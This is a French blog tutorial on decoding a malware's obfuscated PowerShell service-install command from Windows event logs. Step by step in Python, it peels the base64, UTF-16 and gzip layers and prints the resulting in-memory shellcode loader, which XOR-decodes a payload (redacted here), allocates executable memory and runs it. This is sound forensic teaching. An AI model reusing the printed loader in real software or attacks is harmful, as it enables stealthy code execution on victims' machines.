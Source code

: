 ```yaml
---
layout: default
permalink: /malwarelab/tuto/decoder-shellcode
title: Décoder les commandes Powershell d'un malware et le shellcode
tag: tuto_malware
category: post
---
```


## Décoder les commandes Powershell d'un malware et le shellcode

Lors de la compromission d'une machine, l'une des premières choses que l'on analyse sont les journaux d'évènement Windows. Ces derniers peuvent nous en dire long sur les actions de l'attaquant. Il est même parfois possible de reconstruire toute la chaîne d'exécution du malware, du vecteur d'entrée à l'exécution du binaire malveillant.

Nous allons ici nous intéresser ici à un malware s'installant sur une machine en se faisant passer pour un service. C'est une technique assez répendue afin d'outrepasser la vigilence de l'utilisateur.

# Décoder le code Powershell

Dans les journaux d'évènements, les traces de commandes Powershell peuvent être visibles dans plusieurs fichiers (Security, Microsoft-Windows-PowerShell/Operational... ). Ici, comme il s'agit d'un service qui s'installe, nous verrons les traces d'exécution dans le fichier Système.evtx (event id : 7045).

![Evtx_PS.png](/img/decode-shellcode/Evtx_PS.png)

Nous allons décoder cette chaîne en base64 simplement avec Python :

```Python
>>> import io
>>> import base64

>>> data = "JABzAD0ATgBlAHcALQBPAGIAagBlAGMAdAAgAEkATwAuAE0AZQBtAG8[REDACTED]"

>>> base64.b64decode(data)
b'$\x00s\x00=\x00N\x00e\x00w\x00-\x00O\x00b\x00j\x00e\x00c\x00t\x00 \x00I\x00O\x00.\x00M\x00e\x00m\x00o\x00r\x00y\x00S\x00t\x00r\x00e\x00a\x00m\x00(\x00,\x00[\x00C\x00o\x00n\x00v\x00e\x00r\x00t\x00]\x00:\x00:\x00F\x00r\x00o\x00m\x00B\x00a\x00s\x00e\x006\x004\x00S\x00t\x00r\x00i\x00n\x00g\x00(\x00"\x00H\x004\x00s\x00I\x00A\x00A\x00A\x00A\x00A\x00A\x00A\x00A\x00A\x00K\x001\x00W\x007\x003\x00P\x00a\x00O\x00B\x00P\x00+\x00H\x00P\x004\x00K\x00f\x00c\x00i\x00M\x007\x00S\x00l\x00Q\x00E\x00n\x00J\x00p\x006\x00E\x001\x00m\x00y\x00m\x00/[REDACTED]'
```

A la vue du résultat, les nombreux "\x00" nous ammènent à penser que la chaîne est encodée en UTF-16. Un coup de <code>decode("UTF-16")</code> et le tour est joué !

```Python
>>> base64.b64decode(data).decode("UTF-16")
'$s=New-Object IO.MemoryStream(,[Convert]::FromBase64String("H4sIAAAAAAAAAK1W73PaOBP+HP4KfciM7SlQEnJp6E1mym/MC4TGJKHlGEbIMjERFkiyw[REEDACTED]"));IEX (New-Object IO.StreamReader(New-Object IO.Compression.GzipStream($s,[IO.Compression.CompressionMode]::Decompress))).ReadToEnd();'
```

Nous obtenons un script Powershell qui semble contenir encore une couche d'encodage de base64.

Rebelotte, décodons la chaîne en base 64 avec Python.

```Python
>>> data = "H4sIAAAAAAAAAK1W73PaOBP+HP4KfciM7SlQEnJp6E1mym/MC4TGJKHlGEbIMjERFkiyw[REDACTED]"

>>> base64.b64decode(data)
b'\x1f\x8b\x08\x00\x00\x00\x00\x00\x00\x00\xadV\xefs\xda8\x13\xfe\x1c\xfe\n}\xc8\x8c\xed)P\x12ri\xe8Mf\xcao\xcc\x0b\x84\xc6$\xa1\xe5\x18F\xc821\x11\x16H\xb2\xc1\\\xfb\xbf\xbf+\x1bs\xf4\x9a\xbcog\xee2\xc3D\x96vW\xbb\xcf>\xbb+\x87\xaa\x82\xa3\x84OT\x9f\xbb\x14\x15\x1e\xa9\x90>\x0f\xd0e.w\xde\xe0\xb6B\xb7\xe8\x93\x91\xf3\xc2\x80(\xbd\xad\x17\xb3\x05U\xb3\xb5\xe0d\x86]WP)\xd1\x9f\xb9\xb3!\x16x\x85\xcc\xf3\x08\x8b\xd9\x8a\xbb!\xa3y\x94|hA\xea\x86\x82Zgg\xb9\xb3d+\x0c$\xf6\xe8,\xc0\xca\x8f\xe8lE\xd53w%\\dN\xaa\xebu\x83\xaf\xb0\x1fL?~\xac\x87B\xd0@\xa5\xdf\xc56UU)\xe9j\xce|*M\x0b}CO\xcfT\xd0\xc2\xdd|I\x89B\x7f\xa2\xf3Y\xb1\xcd\xf8\x1c\xb3\x83X\\\xc7\xe4\x19\x02\xaa\x06\xae>\xebq\x82u\x04Eg\xcd|e\x1a\x7f\xfcaX\x93\xc2\xc5\xb4\xd8\xdc\x84\x98I\xd3pb\xa9\xe8\xaa\xe82fX\xe8\xbb\xa5[REDACTED]'
```

Pas d'UTF-16 cette fois. En revanche, la chaîne est compressée. Dans le code Powershell obtenu, la chaîne est décodée puis décompressée <code>IO.Compression.GzipStream($s,[IO.Compression.CompressionMode]::Decompress)</code>. Ce que nous allons donc reproduire avec notre chaîne fraîchement décodée .

```Python
>>> zipped = io.BytesIO(base64.b64decode(data))
>>> f = gzip.GzipFile(fileobj=zipped)
>>> f.read()
b"Set-StrictMode -Version 2\n\n$DoIt = @'\nfunction func_get_proc_address {\n\tParam ($var_module, $var_procedure)\t\t\n\t$var_unsafe_native_methods = ([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\\\')[-1].Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')\n\t$var_gpa = $var_unsafe_native_methods.GetMethod('GetProcAddress', [Type[]] @('System.Runtime.InteropServices.HandleRef', 'string'))\n\treturn $var_gpa.Invoke($null, @([System.Runtime.InteropServices.HandleRef](New-Object System.Runtime.InteropServices.HandleRef((New-Object IntPtr), ($var_unsafe_native_methods.GetMethod('GetModuleHandle')).Invoke($null, @($var_module)))), $var_procedure))\n}\n\nfunction func_get_delegate_type {\n\tParam (\n\t\t[Parameter(Position = 0, Mandatory = $True)] [Type[]] $var_parameters,\n\t\t[Parameter(Position = 1)] [Type] $var_return_type = [Void]\n\t)\n\n\t$var_type_builder = [AppDomain]::CurrentDomain.DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')), [System.Reflection.Emit.AssemblyBuilderAccess]::Run).DefineDynamicModule('InMemoryModule', $false).DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', [System.MulticastDelegate])\n\t$var_type_builder.DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $var_parameters).SetImplementationFlags('Runtime, Managed')\n\t$var_type_builder.DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $var_return_type, $var_parameters).SetImplementationFlags('Runtime, Managed')\n\n\treturn $var_type_builder.CreateType()\n}\n\n[Byte[]]$var_code = [System.Convert]::FromBase64String('38uqIyMjQ6rGEvFHqHETqHEvqHE3qFELLJRpBRLcEuOPH0[REDACTED]')\n\nfor ($x = 0; $x -lt $var_code.Count; $x++) {\n\t$var_code[$x] = $var_code[$x] -bxor 35\n}\n\n$var_va = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((func_get_proc_address kernel32.dll VirtualAlloc), (func_get_delegate_type @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr])))\n$var_buffer = $var_va.Invoke([IntPtr]::Zero, $var_code.Length, 0x3000, 0x40)\n[System.Runtime.InteropServices.Marshal]::Copy($var_code, 0, $var_buffer, $var_code.length)\n\n$var_runme = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer($var_buffer, (func_get_delegate_type @([IntPtr]) ([Void])))\n$var_runme.Invoke([IntPtr]::Zero)\n'@\n\nIf ([IntPtr]::size -eq 8) {\n\tstart-job { param($a) IEX $a } -RunAs32 -Argument $DoIt | wait-job | Receive-Job\n}\nelse {\n\tIEX $DoIt\n}\n"
```










![ProcessTree.png](/img/ProcessTree.png)
